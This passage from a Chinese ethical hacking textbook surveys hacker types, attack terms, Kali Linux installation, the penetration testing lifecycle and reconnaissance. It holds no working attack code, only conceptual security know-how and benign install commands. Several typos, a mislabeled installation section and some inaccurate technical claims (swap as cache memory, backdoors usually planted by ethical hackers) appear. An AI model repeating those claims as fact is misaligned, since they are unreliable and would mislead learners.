管理员是经过培训的人员，负责使用开发人员设计的工具来管理操作系统。管理员不开发自己的工具，但他们了解操作系统的每一个角落。人们可以通过接受特定操作系统的认证和培训来成为系统管理员。当今世界上大多数黑客都接受过此类培训，也可以成为管理员。管理员对操作系统和现有的缺陷有大量了解。担任安全顾问或组织安全团队工作的人也被称为系统管理员。

接下来，让我们根据他们的活动来了解黑客。

### 白帽黑客 (White Hat Hacker)

白帽黑客是处理道德黑客攻击的人。道德黑客是拥有黑客攻击知识、技能以及黑客攻击工具的安全专业人员。他们通常被组织聘用以发现系统中的安全漏洞，并在真实攻击发生之前实施措施修复这些漏洞。

白帽黑客也被称为渗透测试员（penetration testers）。他们的主要重点是发现漏洞并进行修复，以为组织内的系统提供安全保障。

鉴于本书完全关于道德黑客攻击，我们将在本书过程中详细学习白帽黑客的功能。

### 黑帽黑客 (Black Hat Hacker)

黑帽黑客是本质上不道德道德的人，为了个人利益而入侵系统。这些是犯罪分子和破解者，他们利用自己的技能和知识为了恶意目的访问系统。有时，他们臭名昭著，并想要破坏系统的完整性。黑帽黑客也被称为安全破解者（security crackers）。他们的主要意图是为了利益盗取信息。

### 灰帽黑客 (Grey Hat Hacker)

灰帽黑客是介于黑白之间的一种人。他们通常没有伤害别人的意图，但在利用漏洞时可能会无意中实施恶意行为。灰帽黑客也被称为在白帽和黑帽之间工作的混合黑客。

## 什么是道德黑客攻击？

授权的入侵信息系统安全以识别系统或其关联网络弱点的过程被称为道德黑客攻击。道德黑客或白帽黑客获得许可对该系统进行测试。道德黑客检查系统的安全设置。恶意攻击与道德黑客攻击的区别在于后者是有计划的攻击，因此是完全合法的。

黑客的工作是识别系统中可供恶意攻击者利用的漏洞。黑客会对系统进行多次测试，收集有关系统的信息并使其更加安全。因此，他们的最终目标是确保信息系统足够强大，能够应对所有挑战。

为了个人利益而黑客，这正是白帽黑客与黑帽客的区别所在。

## 尊重隐私

伦理黑客在进行渗透测试时会获取到大量的个人信息。他们被要求以尊重的态度对待这些信息，不要将其用于个人利益。在渗透测试期间收集到的所有信息，从网络浏览活动到密码，都必须保持保密。

## 确保系统不受损坏

组织拥有的系统和信息价值巨大，绝不能以任何代价造成损坏。伦理黑客应该阅读所有关于组织数字基础设施的可用文档，以免在无无意的情况下阻碍系统运行。如果你同时在系统上运行过多的测试，系统可能会崩溃。如果系统在生产运行期间崩溃，可能会给组织带来巨大的收入损失。

## 执行计划

在伦理黑客领域，时间和耐心至关重要。在执行测试时，你需要非常小心，并确保没有未经授权的员工知道你正在做什么。在执行测试时，会有许多眼睛注着你，从实践上来说无法判断该组织的员工是否想要伤害它。你所做的就是尽可能安静、私地进行测试，并且除了雇佣你完成工作的主管之外，不要向任何人泄露任何信息。

伦理黑客有时会将系统补丁做得过头，通过加固系统来防御可能根本不会发生的攻击。例如，如果组织没有内部 Web 服务器，那么保护系统的网络将毫无帮助。然而，同时，请确保你的系统能够防止可能物理接触系统的恶意员工。

## 黑客行动主义 (Hacktivism)

根据《梅辞-韦斯特词典》，黑客行动主义（Hacktivism）被定义为“通过入侵和破坏网络或网站，为了推进政治或社会活动目标的计算机黑客”。

黑客行动主义一词的发明归功于90 年代初活跃的“死牛邪教”（Cult of the Dead Cow）黑客组织。黑客行动主义最初通过在线游戏社区开始，随后演变为在互联网上匿名用于共同事业。黑客行动主义者大多是利用网络空间并与志同道合者保持联系的年轻人。

开放的互联网为黑客行动者提供了匿名和使用假名的机会，让他们主要在互联网上通过合作分享盗版内容、盗版软件等。大多数黑客行动者旨在推翻“既得利益（The Establishment）”，这通常是指他们不太满意的特定政府或资本公司。获得大量公众关注的小组包括匿名（Anonymous）、叙利亚电子军（Syrian Electronic Army）和 Lulzsec。随着互联网连接了世界上最偏远的角落，黑客行动者意识到他们在互联网上的行为个人风险非常小。

## 网络恐怖主义

当技术被用于赋予恐怖主义时，网络恐怖主义就出现了。大众中存在一种常见的误区，认为犯罪和恐怖主义是同一回事。区别在于恐怖主义具有政治动机，而犯罪可能有个人动机。犯罪活动和恐怖活动造成的危害程度也不同。例如，美国的一项法令将“恐怖主义”为：

- (i) 实施根据任何国家法律构成的“犯罪”的行为
- (ii) 恐吓或胁迫平民，通过恐吓或胁迫影响政府政策，或通过大规模破坏、暗杀或绑架影响政府行为。

随着技术的进步，恐怖组织已开始利用计算机技术针对平民，并阻碍社会维持内部秩序的能力。他们成功地将技术作为大规模杀伤性武器。

## 为什么黑客要攻击？

犯罪黑客攻击系统主要是因为他们这样做可以。对于某些人来说，黑客可能只是一种爱好，他们攻击自己的系统来查看他们可以攻击什么以及不能攻击什么。许多黑客通常是被某组织解雇的前员工，他们想通过窃取敏感信息来报复。恶意黑客攻击系统是为了获得系统的控制权，这满足了他们的虚荣心并导致成瘾。一些黑客只是想出名，而另一些则想让别人的生活变得痛苦。大多数恶意黑客有共同的动机，如好奇、报复、盗窃、挑战、无聊和公司工作压力。

## 黑客术语

我们将通过讨论黑客中最常用的术语来介绍本章，你将在本书剩下的章节中看到这些术语。

### 钓鱼 (Phishing)

钓鱼是黑客领域最流行的术语。钓鱼是黑客采用的一种方法，旨在欺骗用户透露关键信息，如用户名、密码、银行详情等。钓鱼者会伪装成某人并针对特定个人，使其泄露信息。收集的信息可能被黑客进一步用于恶意目的。

例如，钓鱼者会向目标发送一封邮件，这封邮件看起来来自目标的银行。邮件会要求用户提供银行信息，或者包含一个链接，将用户重定向到看起来像其银行网站的网站。用户完全不知道该网站的真伪，最终在网站上的可用表单上输入他们的银行账户详情。钓鱼属于社会工程范畴。

一个黑客曾利用钓鱼发送一封看起来来自亚马逊的虚假邮件。他告诉用户他们赢了 10 英镑，需要点击链接并完成调查以领取礼金券。

### 恶意软件 (Malware)

另一个你随处都能听到的术语是恶意软件。你可能以前听说过某些网站可能被恶意软件感染，让我们更好地了解这个术语吧。

恶意软件是黑客开发的软件，用于突破计算机系统的防御并窃取关键信息。恶意软件进一步分为子类，如病毒、蠕虫、特洛马、间谍软件、广告软件、键盘记录器等。恶意软件可以通过网络、硬盘或 USB 等通道植入计算机系统。

例如，最近的一种恶意软件针对 Magento 和 OpenCart，将其用户重定向到恶意网站。这导致了客户流失、声誉损失，甚至影响了这些网站的搜索引擎排名。

## 后门 (Backdoors)

后门经常与特洛马混淆，它是运行在受损系统后台的程序。它方便了进入系统，并消除了再次利用系统的需要。大多数特洛马都包含后门，但后门并不一定是特洛马。后门是类似于特洛马的脚本或应用程序，但不为用户提供任何功能。后门通常由伦理黑客实施，以便在受损系统中执行完全不同的程序。

## 特洛马 (Trojan Horse)

特洛马是一种植入目标系统以执行攻击者所需功能的恶意程序。它可以具有多种功能，如创建后门、运行脚本、窃取信息，甚至欺骗人们披露财务信息（如信用卡详情）。由于今天特洛马的性质，人们经常将其等同于病毒。特洛马与病毒的区别在于特洛马是一个独立的程序，不依赖其他程序执行自身。

### 病毒 (Virus)

病毒被定义为影响系统中真实程序的恶意代码或恶意软件。病毒能够感染文件、引导扇、内存空间甚至硬件。病毒有以下子类。

- 驻留病毒：驻留病毒是一种在移动到 RAM 空间后

系统在启动时运行并在关机时退出。这些病毒会寄生在进程中，并中断进程与系统内核之间的内部调用。这种病毒在渗透测试过程中受到青睐，因为它能够持续地规避检测。

**非驻留病毒（Nonresident Virus）：** 非驻留病毒是一种依赖系统硬盘宿主执行的病毒；它感染宿主，并在执行完成后退出内存。

# 勒索软件（Ransomware）

截至2020年，勒索软件是网上搜索率最高的词之一。勒索软件是一种恶意软件，它可以锁定用户的系统并阻止其访问所有文件。它会在屏幕上显示索要信息，要求用户支付费用以重新获得系统的访问权限。勒索软件攻击者最初针对个人用户，但他们很快发现，攻击银行、医院和企业等大型机构的收益更高。Pety勒索软件攻击是一个非常近期的案例，影响了全球各地的企业。在这次攻击中，病毒在乌克兰国有银行 Ochadbank 拥有的所有 ATM 机屏幕上显示了索钱的消息。

# 欺骗（Spoofing）

邮件欺骗和 IP 欺骗是欺骗领域中更常见的术语。在邮件欺骗中，邮件的头部被修改，以使邮件看起来像源自真实的来源。例如，黑客会修改邮件头部，使其看起来像是发送给你银行的真实邮件。另一方面，IP 欺骗是指向你的计算机发送的非请求网络数据包，但源 IP 被更改，使其看起来像源自合法的系统或受信任的主机。黑客希望你的系统会接受这个数据包，从而授予其访问你系统的权限。

# 加密（Encryption）

加密是一种对信息或数据进行编码以使其机密或不可读的技术。只有持有解密密钥的授权方才能将信息还原原始格式并使其可读。勒索软件攻击的基础是加密，它攻击系统并加密其文件。黑客只有在用户支付请求的赎索金后才会提供解密密钥。

# 广告软件（Adware）

广告软件是一种向你的系统中注入大量广告的软件。然而，它还会暗中监视你的活动，并根据你的互联网活动生成广告。有时广告软件具有很强的恶意性，会在你的系统上不断弹出广告，最终导致系统运行变慢。一旦在你的系统上植入广告软件，它可以收集个人信息、网络活动，并将其提供给攻击者进行钓鱼攻击。广告软件术语在营销领域非常流行。像 Google 这样索引网站的网站已开始在广告引导你进入可能具有欺骗性的恶意网站时显示警告。

# 零日威胁（Zero-Day Threat）

一种全新的且未被任何病毒扫描程序记录的威胁因此可以绕过病毒扫描。这种威胁被称为零日威胁。这种漏洞在杀毒软件中非常常见，特别是当杀毒软件开发人员对数字世界中的新威胁了解不足时。零日威胁将通过浏览器和邮件附件等向量利用系统。

# 暴力破解攻击（Brute Force Attack）

暴力破解是另一种流行的黑客术语，用于绕过互联网上的登录页面。暴力破解也称为穷举密钥搜索，是一种通过尝试错误来猜测密码和其他加密信息的方法。黑客使用这种方法破解管理员账户的密码，然后利用这些密码窃取系统上的所有信息。

# HTTPS/SSL/TLS

2018年世界最流行的网络浏览器 Google Chrome 宣布，对于未运行 HTTPS 协议的网站将发出警告。HTTPS 代表超文本传输协议，S 代表安全（secure）。它是一个确保网站上安装了名为 SSL 的数字证书的框架，以便用户浏览器与网站服务器之间的信息始终是加密的。中间人员无法在传输过程中窃取这些信息。SSL 和 TLS 是 HTTPS 的协议，用于验证网站身份并使网站值得信赖。建议避免访问未解析为 HTTPS 的网站。即使你访问了该网站，也不要在上面输入任何敏感信息。

# 机器人（Bot）

机器人是一种在互联网上运行自动化脚本的程序。搜索引擎通常会使用被称为“爬虫”的机器人，这些爬虫爬取互联网上的所有网站，收集有关它们的信息，以帮助搜索引擎进行索引。然而，这些机器人也被黑客用于执行恶意任务，例如在目标系统中引入恶意软件。

# 僵尸网络（Botnet）

僵尸网络是由黑客控制的机器人网络。黑客可以创建一个僵尸网络来发动攻击，如 DDoS（分布式拒绝服务攻击）、发送垃圾邮件、窃取信息，并允许黑客访问系统及其关联网络。一组机器人将帮助黑客逃避追溯，并通过整合多个系统上的计算力来增强攻击强度。

# DDoS（分布式拒绝服务，Distributed Denial of Service）

这种黑客术语在黑客中非常流行，对于网站开发人员和所有来说是一种骚扰。黑客通过使用一组机器人或僵尸执行 DDoS 攻击。机器人拥有代码，指示它们通过黑客控制的多个系统不断向 Web 服务器发送随机网络数据包。这导致目标服务器的负载超过了其承受能力，并导致服务器崩溃甚至完全关闭，从而中断服务器上的服务。访问该服务器的用户对攻击一无所知。其中有一种持续了数月的流行的 DDoS 攻击。

# 防火墙（Firewall）

防火墙是一种用于保护网络并持续监控入出网络流量的软件。它过滤来自不可信源的入站数据，并确保网络内部的通信安全。防火墙可以通过软件和硬件实现。良好的防火墙会持续寻找网络上的异常活动，但黑客有时仍能找到绕的方法。为了跟上黑客，防火墙每天都会更新或替换为新的安全参数。

# 载荷（Payload）

通过网络传输的数据包被称为负载。然而，在黑客攻击中，负载是一种通过网络传输并植入目标系统的病毒，用于利用系统并授予黑客访问权限。

# 根内核程序（Rootkit）

根内核程序是用于入侵系统的最危险的方法之一，因为它们大多数时候无法被检测。黑客手中的根内核程序可以导致完美的窃取。黑客使用不同的通道在目标系统中植入和安装根内核程序。一旦根内核程序被植入，黑客将获得系统的上帝级权限。根内核程序运行在操作系统的较低层次，可以长时间不被发现，这使用户变得更加脆弱。根内核程序可以被称为黑客攻击的“圣杯”，即使是经验丰富的安全人员也需要长时间才能找到它们。

# 远程访问工具（RAT）

RAT 代表远程访问工具或远程访问木马。它是一种可以由业余黑客操作的恶意软件应用程序。一旦 RAT 安装在目标系统中，黑客就可以获得系统的完全访问权限。RAT 工具的主要意图是合法操作（例如从家里远程操作工作计算机），但黑客意识到其优势并利用它非法访问目标系统。

# 垃圾邮件（SPAM）

垃圾邮件是一种主要与邮件相关的黑客术语。用户收到的任何非请求邮件都被归类为垃圾邮件。垃圾邮件主要由广告组成。垃圾邮件者从数据库中收集大量的电子邮件地址并批量发送以推广产品。然而，垃圾邮件也可以被攻击者用于通过钓鱼或在邮件中发送重定向用户到非法网站的链接来向系统中注入恶意软件。建议使用垃圾邮件过滤器或在收到垃圾邮件时立即删除。

接收。

# 蠕虫 (Worm)

蠕虫是一种恶意代码，就像病毒能够自我复制一样。然而与病毒不同，蠕虫不需要寄宿在文件中，可以独立存在。它可以在不需要人工干预的情况下通过网络进一步扩散到各种系统。自我复制的蠕虫会占用内存、磁盘空间、带宽和处理器时间等系统资源，导致你的系统变得非常缓慢。如果不及时从系统中移除蠕虫可能会导致灾难性的后果。

# 伪装 (Cloaking)

顾如词义，伪装是指覆盖信息。黑客利用伪装向用户展示恶意网站，同时将其伪装成合法的界面。黑客在 Web 服务器上使用 .htaccess 规则和动态脚本，使网站对特定的 IP 地址不可见，而向另一组 IP 地址提供服务。如果 Google 检测到伪装，将挂起你的网站广告。

### 渗透测试 (Penetration Testing, Pentesting)

渗透测试可以定义为道德黑客在指南和批准范围内，攻击组织系统所采用的方法、流程和程序。它包括对现有安全系统的破坏。这种测试从技术、运维和管理层面评估组织数字基础设施的安全性。通常，道德黑客只会根据构建情况测试信息系统的安全性。系统或网络管理团队不需要知道正在进行渗透测试。

# 漏洞分析 (Vulnerability Analysis, Vulnerability Assessment)

漏洞评估或漏洞分析用于评估组织信息系统的安全性。安全团队将尝试寻找操作系统以及系统上所有其他已安装软件缺失的安全补丁。漏洞评估团队可以通过第三方聘请，也可以是组织内部团队。

# 安全控制评估 (Security Controls Assessment)

针对法律和法规要求的对信息系统的安全性评估被称为安全控制评估。这些要求包括但不限于遵守《联邦信息安全管理法》(FISMA)、《健康保险可移植性与责任法》(HIPAA) 以及支付卡行业安全标准》(PCI)。组织需要安全控制评估作为“证据链”(BOE)，以授权其在生产环境中的基础设施。某些系统可能要求将强制性渗透测试作为安全控制评估的一部分。

# 第二章

# Kali Linux

在本章中，你将学习道德黑客可以拥有的最强大的工具：Kali Linux 操作系统。你将学习如何下载和安装 Kali Linux，以便使用操作系统内置的渗透测试工具。这些工具帮助道德黑客在渗透测试生命周期的各个阶段进行测试。

你中的一些可能已经知道安装操作系统的过程，但复习一下总是有好的。对于那些从未安装过操作系统的同学，本章将指导你详细安装 Kali Linux 操作系统。你将学习从哪里下载安装介质，然后安装 Kali Linux。

Kali Linux 是道德黑客的极佳工具，因为它可以快速安装在硬盘等持久性介质上，也可以安装在 USB 盘上并在需要时从其进行 启动。因此，它是道德黑客工具箱中非常方便且便携的工具。如果你在担任道德黑客期间访问本地机器，可以利用 Kali Linux Live 光盘将其引导到目标组织基础设施内部的可用物理机中。默认情况下，默认版 Kali Linux 安装提供超过 400 种工具。

# 下载 Kali Linux

Kali Linux 是 Linux 操作系统的发行发行版，以 ISO 镜像文件的形式免费下载。你需要使用另一个系统来下载 ISO，然后将 ISO 刻录到 USB 盘上，以便安装到特定的计算机系统中。你可以从以下 URL 下载 Kali Linux ISO 文件。

https://www.kali.org/downloads/

如果你需要关于配置、高级操作和其他特殊情况的自学材料，可以在 Kali Linux 官方网站上阅读：

http://www.kali.org/official-documentation/

要在 Kali Linux 网站上注册，建议访问社区论坛，活跃用户会在那里讨论他们的问题和发现。

在下载镜像文件之前，请确保你选择了正确的架构。计算机中的每个处理器都有 32 位架构或 64 位架构。这在 Kali Linux 镜像下载中分别表示为 32 位的 i386 和 64 位的 amd64。下载完成后，你可以使用镜像刻录软件将 Kali Linux 安装介质刻录到 USB 盘或 DVD。

在本章中，我们将涵盖在硬盘上安装 Kali Linux 以及用于 Live 启动的 Live USB 盘的安装内容。

# 硬盘安装

要开始安装，请将 DVD 插入计算机的 DVD 驱动器，或插入你已加载 Kali Linux 安装介质的 USB 盘。根据你所使用的设备，你需要在计算机的 BIOS 设置中设置启动优先级，以便从相应的介质中启动安装。

# 首次启动 Kali Linux

如果你已成功地从 DVD 或 USB 盘加载了安装介质，你将看到一个屏幕。

我们将执行的安装将删除你硬盘上任何现有的操作系统，并将其替换为纯净的 Kali Linux。通过高级选项，你可以将 Kali Linux 与现有的操作系统一起侧加载到硬盘上，但这超出了本书的范围。

我们将通过“图形化安装”(Graphical Install)选项开始安装。

# 设置默认值

接下来的屏幕将让你为 Kali Linux 系统选择默认设置，例如语言、位置以及键盘语言。选择适用于你所在地区的设置并点击继续以继续操作。在执行这些默认设置的过程中，你会看到各种进度条。

# 初始网络设置

系统上会出现一个屏幕，你可以在其中输入选择的主机名。尽量保持唯一。点击下一步后，你将被要求输入完全限定域名。这用于你的 Kali Linux 系统是公司网络的一部分时。你可以跳过此，因为作为独立系统运行 Kali Linux。留空并点击继续。

# 密码

下一个屏幕将提示为 root 账户设置密码。

root 账户是 Kali Linux 系统的超级用户，拥有系统的所有权限。也可以称为系统的所有者。root 的默认密码是 root，建议将其更改为复杂的密码。密码需要包含以下每项：大写字母、小写字母、数字和符号。始终确保设置复杂的密码，以防止你的系统被他人访问。选择密码后，点击继续。

# 系统时钟

你将收到另一个屏幕提示，你必须在其中设置系统时钟。点击你所在的时区然后点击继续。

# 磁盘分区

有多种实现 Linux 操作系统分区的方法，甚至可以只为分区写一整本书。在书中，我们将关注被称为“引导式分区”(Guided Partitioning) 的基本分区方案。

我们将继续使用“引导式 - 使用整个磁盘”选项。选择它并点击继续。

下一个屏幕将显示你上所有的物理硬盘。

- 除非你的系统中存在多个硬盘，否则理想情况下在这里只会看到一个驱动器。你可以点击代表硬盘名称的硬盘，然后点击“继续”。

在下一个屏幕上，系统将询问你想要如何使用可用硬盘。

继续使用“所有文件放在一个分区（All Files in one partition）”选项以保持安装过程简单。选择它并点击“继续”。

在下一个提示中，你将看到一个确认界面。将有一个包含所有用户文件的主分区和一个名为 swap 的第二个分区。swap 分区被用作虚拟内存系统，在系统的 CPU 和 内存（运行内存）之间不断切换文件。

简单来说，它被称为缓存内存。建议在所有基于 Linux 的系统中都设置 swap 分区。通常它的大小应与系统安装的 RAM 相同或为 1.5 倍。选择“完成分区并将更改写入磁盘”，然后点击“继续”。

此之后，安装程序仍会给你最后一次机会来确认你的选择和输入。你将看到以下屏幕，可以在其中选择“是”并点击“继续”。

在系统运行时，你可以更改分区方案，但如果操作不当，可能会损坏你的系统及其上的文件。

点击“继续”后，你将看到一个带有进度的屏幕，安装程序将开始将文件复制到你的硬盘。完成此操作的时间取决于你的硬件。

## 配置包管理器

在安装程序完成文件复制到你的硬盘后，下一个屏幕将显示一个提示，让你为你的 Kali Linux 系统配置包管理器。包管理器对你的系统至关重要。当 Kali Linux 需要根据软件的新更新更新其包仓库时，包管理器就会发挥作用。建议使用 Kali Linux 内置的网络镜像源（network mirror），因为它可以访问官方的 Kali Linux 包源进行更新。

你可以点击“是”继续。系统将提示你进入另一个屏幕，以指定第三方网络包的 URL。这同样用于你的 Kali Linux 系统是企业系统的一部分，该系统在其本地服务器上存储了 Kali Linux 包的本地仓库。你可以直接留空并点击“继续”以进行安装。

## 安装 GRUB 加载程序

在下一个屏幕上，系统将询问你是否为 Kali Linux 系统安装 GRUB 引导加载程序。GRand Unified Bootloader（统一引导程序，也称为 GRUB）是每次 Kali Linux 系统启动时出现的主界面。它为你提供了一个进入系统的菜单，并可以在启动前用于一些高级设置。对于高级用户来说不是必须的，但对于新用户，建议安装。

选择“是”并点击“继续”。

## 完成安装

最后，你将到达完成屏幕。你可以点击“继续”，系统应当重启。拔掉 DVD 或 USB 闪存并继续重启。重启后，你应该会看到 Kali Linux 欢迎界面。使用你设置的密码以 root 用户身份登录，大搞定了！欢迎来到 Kali Linux。

## USB 驱动器安装

USB 驱动器（也称为 USB 闪盘或 USB stick）是一种可以插入计算机系统 USB 端口的存储设备。我们建议使用至少 8 GB 或更大的空间的 USB 驱动器来安装 Kali Linux。现在的所有新计算机系统都可以从 USB 设备启动。你可以从电脑的 BIOS 设置中为你的 USB 设备设置启动优先级。

我们将介绍使用 Windows 机器和 Linux 机器在 USB 驱动器上安装 Kali Linux 的过程。你可以查看 Kali Linux 网站提供的官方文档以进行详细了解。

在使用 USB 驱动器启动操作系统时，会有两个重要术语进入视野：持久化（persistence）和非持久化（non-persistence）。

持久化是指系统在重启后仍能保留对其文件所做的更改或修改的能力。非持久化意味着系统在重启后将丢失之前所做的所有更改。在书中，通过 Linux 机器进行的 Kali Linux USB 驱动器安装将是持久化的，而通过 Windows 机器进行的安装将是非持久化的。这将确保你学习到不同的方法。

## Windows 非持久化安装

在可以通过 Windows 在 USB 驱动器上继续安装 Kali Linux 之前，你需要下载 Win32 Disk Imager。你可以从以下 URL 下载它：

https://sourceforge.net/projects/win32diskimager/

当你像安装硬盘的情况一样下载了 Kali Linux ISO 镜像后，将 USB 驱动器插入你的计算机系统，Windows 将自动检测到它并为其分配一个盘器符。接下来，启动 Win32 Disk Imager 程序。点击文件夹图标浏览文件并选择你之前下载的 Kali Linux ISO，点击“确定”。从下拉列表中选择 Windows 分配给你 USB 驱动器的驱动器。点击“写入（Write）”按钮开始将 Kali Linux 系统写入你的 USB 驱动器。

该过程需要一些时间，取决于你的系统硬件。在 Win32 Disk Imager 完成将 ISO 写入 USB 驱动器后，重启你的计算机并在 BIOS 设置中为你的 USB 驱动器选择最高优先级。由于制造商的不同，每个计算机系统的 BIOS 设置界面都不同。因此请仔细选择启动优先级设置。完成后，再次重启系统，它应该会给你一个 Kali 启动菜单。你可以选择“Live”选项，这通常是直接从 Live USB 进入 Kali Linux 桌面的第一个选项。

## Windows 持久化安装

我想强调，构建用于 Kali Linux 安装的持久化 USB 驱动器时，大小非常重要。取决于你用于创建 USB 驱动器的 Linux 系统，确保你已安装了 GParted 。如果在安装 GParted 时遇到困难，请参考文档。你可以通过终端使用以下命令安装 GParted：

```bash
```


### 安装 GParted

`apt-get install gparted`

`aptitude install gparted`

`yum install gparted`

### 定位 USB 驱动器

下载完成后，将 USB 驱动器插入计算机系统。使用终端命令确定 USB 驱动器的位置：

```bash
mount | grep -i udisks | awk '{print $1}'
```

你应该得到一个类似 `/dev/sdb` 的驱动器文件位置。请小心，它可能会因你的系统而不同。在下一个命令中，删除末尾的数字，将 `sdb1` 改为 `sdb`。

### 写入 Kali Linux ISO

使用如下命令将 Kali Linux ISO 写入 USB 驱动器：

```bash
dd if=kali_linux_image.iso of=/dev/sdb bs=12k
```

### 使用 GParted 创建分区

使用以下命令启动 GParted：

```bash
gparted /dev/sdb
```

驱动器应该显示一个已安装 Kali Linux 镜像的分区。你需要通过选择菜单栏上的分区菜单为驱动器添加另一个分区。步骤可能根据制造商略有不同，但大致如下：

- 点击未分配的灰色区域。
- 从分区下拉菜单中选择“新建（New）”。
- 使用滑块或手动指定大小。
- 将文件系统设置为 `ext4`。
- 点击“添加（Add）”。
- 点击编辑菜单并选择“应用所有操作（Apply All Operations）”。
- 提示时点击“确定”。这需要几分钟完成。

### 添加持久化功能

你可以使用以下命令为 USB 驱动器添加持久化功能：

```bash
mkdir /mnt/usb
mount /dev/sdb2 /mnt/usb
echo "/ union" > /mnt/usb/persistence.conf
umount /mnt/usb
```


这就搞定了。你现在创建了一个持久化的 Live Kali Linux USB。重启系统，你应该可以从 USB 驱动器启动 Kali Linux 系统了。

# 第三章

## 渗透测试生命周期

在行业中，白黑客（Ethical Hacker）也被称为渗透测试员（Penetration Tester）。白黑客精通渗透测试生命周期。组织聘用白黑客是为了让他们在管理层的批准下，对组织的数字基础设施进行多次渗透测试，并发现系统中的漏洞，以便在真实攻击者针对系统之前对漏洞进行修复。

大众中存在一种普遍的误解，认为白黑客或渗透测试员只需要坐在电脑前运行一段代码就可以访问世界上任何系统。人们之所以有这种观念，主要是因为在电影看到的看到，但这与事实相去甚远。该领域的专业人士在发现和挖掘计算机系统漏洞时，方法非常谨慎且精确。

多年来，一个明确的框架已经建立，并被白黑客所采用。该框架的前四个阶段引导白黑客发现系统中的漏洞，并理解这些漏洞可以被利用到什么程度。相比之下，最后一个阶段是将前四个阶段的操作整理成一份整洁的报告，提交给组织的高层管理。这个框架不仅为白黑客创建了完善的规划和执行结构，而且在对组织数字基础设施的多个层次进行渗透测试时也被证明是非常高效的。

每个阶段都收集上一个阶段的输入，并为下一个阶段提供输入。该过程按顺序运行，白黑客返回之前的阶段以分析之前发现的信息并不罕见。

Patrick Enbretson 在他的书《黑客与渗透测试基础》（The Basics of Hacking and Penetration Testing）中清楚地定义了渗透测试生命周的前四个阶段。

这些步骤被称为侦察（Reconnaissance）、扫描（Scanning）、利用（Exploitation）和维持访问（Maintaining Access）。本书根据 Patrick 的书解释了前四个阶段，但额外增加了一个名为“报告”（Reporting）的额外阶段。

如果你读过 EC-Council 在其热门课程“认证伦理黑客”（Certified Ethical Hacker 或 CEH）中定义的五阶段过程，你可能会认为这本书没有包含其中最后的阶段——“隐藏踪迹”（Covering Tracks）。我们刻意在书中省略了这一部分，以便更加关注前四个阶段，并引入“报告”，这是目前市面上大多数关于白黑客的书中未涵盖的内容。

你可能在书中看到的另一个区别是，渗透测试生命周期是用线性版本而不是循环版本来表示的。我们这样做是因为我们相信白黑客在执行期间是线性地遇到情况的。该过程从侦察或收集目标系统的信息开始，到白黑客团队向高层管理层提交关于他们在整个过程中发现的报告。

在本章中，我们将概述渗透测试生命周期所有五个阶段的基本视图，然后为每个阶段安排一个专门的章节。专门的章节还将向你介绍白黑客在每个阶段最常用的工具。通过这种方式，你不仅将理解渗透测试生命周期的五个阶段，还能了解安全专业人员在进行渗透测试时使用的工具。

## 渗透测试生命周期的五个阶段

我们将通过与国际边界战争情况下军队运作的类比，讨论渗透测试生命周期的五个阶段。

### 第一阶段：侦察 (Reconnaissance)

想象一个光线昏暗的房间，分析师和军官正在查看外国领土地图。房间里的其他分析师正看着许多电视上的新闻，并对传来的新闻做记录。房间里还有最后一小组，他们为每个小组收集的所有关于目标的信息准备最终草案。

这个场景告诉了你在军事侦察期间发生了什么，但这与白黑客在渗透测试生命周期的侦察阶段所做的非常相似。

一个组织将聘用一个渗透测试员或白黑客团队，团队的每个成员将致力于从公共来源收集尽可能多关于目标的信息。这是通过在互联网上搜索关于目标的公开信息以及对目标网络进行被动扫描来实现的。在这一阶段，白黑客不会突破目标网络，而只是进行扫描并记录所有用于下一阶段的信息。

### 第二阶段：扫描 (Scanning)

继续之前的军事类比，想象敌军后方有一个山丘，你军队的一名士兵正利用伪装躲在灌丛中。士兵带回了关于敌方营地位置、该特定营地的目标以及该营地每个帐篷内进行的活动类型的报告。士兵还带回了关于进出该营地的所有路线以及周围安全状况的信息。

在这个类比中，士兵根据侦察阶段收集的信息及其提供的信息被赋予了任务。这适用于渗透测试生命周期的扫描阶段。白黑客使用第一阶段收集的信息来扫描目标的网络和系统。可用的扫描工具有助于收集有关目标网络和系统基础设施的精确信息，这些信息将在利用阶段进一步使用。

### 第三阶段：利用 (Exploitation)

你军队的四名士兵在深夜，在多云的天空和微弱月光下穿过一片空地。他们戴着夜视仪，可以在绿色光芒中看到一切。他们通过栅栏的缝隙进入敌营，并通过一个打开的后门进入内部。他们在营地内待了一段时间，然后带着关于近期敌军的信息离开了。

这仍然是白黑客在利用阶段将做的事情。该阶段的目的只是进入目标系统，并在不被发现的情况下快速获取信息离开。该阶段成功地利用了系统，并为白黑客提供了再次进入系统的信息。

### 第四阶段：维持访问 (Maintaining Access)

根据四名士兵提供的敌方计划，工程小组在地面上挖了一个洞，通往拥有所有信息的敌方营地房间。这个隧道的目的是为该房间提供持续且方便的访问。白黑客在维持访问阶段做同样的事情。白黑客在利用阶段发现了如何进入目标系统以及如何进出系统。如果他们重复这个过程，注定会获得时间。因此，根据利用阶段收集的信息，他们自动化了一种保持对目标系统访问的方法。

### 第五阶段：报告 (Reporting)

士兵团队的指挥官现在站在他的高级军官（如将军和海军将）面前，向他们解释袭击的细节。每一个步骤都得到了详细解释，每个细节都得到了进一步扩展以解释利用是如何成功的。在渗透测试生命周期结束时，白黑客还需要创建一个报告，解释黑客过程的每个阶段、发现的漏洞、利用的漏洞以及针对的系统。在某些其他情况下，白黑客团队的高级成员可能需要向组织的高层管理层提供详细报告，并建议采取措施以确保基础设施的安全。

# 第四章

## 侦察

在本章中，你将深入理解渗透测试生命周期中的侦察阶段。侦察过程将帮助道德黑客发现关于目标组织及其基础设施的各种信息。在此阶段收集的信息将用于渗透测试生命周期的后期，以便与该组织进行交互。

就像军事人员在制定战斗策略之前会分析所有可用信息一样，道德黑客在对目标系统计划渗透测试之前，需要收集有关该系统的公开信息。很多时候，所需的信息可以通过 Google 等搜索引擎和社交媒体获取。域名的名称服务器负责于将用户引导到互联网上的特定网站。因此，这些名称服务器也可以用来获取信息。

通过组织路由的电子邮件也可以用于发现信息。道德黑客还可以下载目标组织公开的前端并对其进行离线维护，以便从中获取尽可能的信息。如果根据“交互规则”（Rules of Engagement）获得管理层批准进行社会工程攻击，那么从这些来源收集的信息可以作为社会工程的输入。

当侦察阶段开始时，道德黑客团队对目标的细节了解非常少。提供的细节仅从目标组织的名称和网站，到关于目标网络和信息系统的详细信息，甚至是目标组织所使用的技术。渗透测试将始终受到管理层定义的交互规则（ROE）的限制。ROE 可能限制道德黑客团队对目标基础设施进行拒绝服务（DoS）和分布式拒绝服务（DDoS）攻击等破坏性测试。

